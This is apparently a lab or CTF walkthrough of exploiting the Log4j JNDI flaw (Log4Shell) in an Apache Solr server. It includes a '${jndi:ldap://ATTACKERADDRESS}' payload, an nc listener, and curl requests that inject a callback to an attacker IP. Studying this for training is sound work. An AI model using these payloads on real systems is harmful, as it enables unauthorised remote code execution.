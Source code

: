 # Using Log4j to attack a vulnerable Apache Solar server. [Java 1.8.0_181]

## Dashboard seen on admin front page

## Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well\


## Note log directory...
```-Dsolr.log.dir```

## In logs, find an entry point 

INFO entries with repeated endpoint requests -> parameter field

## Parameter will be used as an attack vector, with a payload having syntax as follows

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to get external resources, ATTACKERADDRESS will be a nc listener on the kali machine.

```$ nc -lnvp 4444```

## Idea behind Remote Code Execution
 - Log4j processes logs by parsing entries, but may EXECUTE code in entry 
 - Anywhere data is logged, is vulnerable to the syntax --- we should have identified an entry point from the logs earlier (we are sure that it will log and be processed)
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j  during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```

